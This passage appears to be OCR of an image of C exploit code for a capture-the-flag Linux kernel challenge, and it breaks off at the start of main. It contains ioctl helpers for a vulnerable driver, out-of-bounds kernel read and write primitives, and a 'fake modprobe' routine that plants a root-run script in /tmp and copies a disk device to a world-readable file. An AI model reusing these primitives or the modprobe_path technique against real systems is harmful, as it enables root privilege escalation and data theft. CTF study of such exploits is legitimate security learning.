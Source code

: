```c

// add a struct fatptr entry to banks table
static int addblock(int size)
{
struct args_create ac;

		ac.size = size;
		return (ioctl(devfd, 0x40087000, &ac));
}

static int changeindex(int index)
{
struct args_switch as;

	as.index = index;
	return (ioctl(devfd, 0x40087001, &as));
}

void get_flag(void){
    puts("[*] Returned to userland, setting up for fake modprobe");
    system("echo '#!/bin/sh\ncp /dev/vda /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");
    puts("[*] Run unknown file");
    system("/tmp/dummy");
    puts("[*] Hopefully flag is readable");
    system("cat /tmp/flag");
    exit(0);
}

unsigned long long modprobe_path = 0;
unsigned oobindex = 0;

void read_primitive(char *dst, char *src, int length)
{
char tmp[16];

	changeindex(oobindex);
	*(uint64_t *)tmp = src;
	*(uint64_t *)(tmp+8) = length;
	write(devfd,tmp,16);
	changeindex(TOTAL_BANKS);
	read(devfd, dst, length);
}

void write_primitive(char *dst, char *src, int length)
{
char tmp[16];

	changeindex(oobindex);
	*(uint64_t *)tmp = dst;
	*(uint64_t *)(tmp+8) = length;
	write(devfd,tmp,16);
	changeindex(TOTAL_BANKS);
	write(devfd, src, length);
}


int main(int argc, char *argv[])
{
int i;
int ret;
```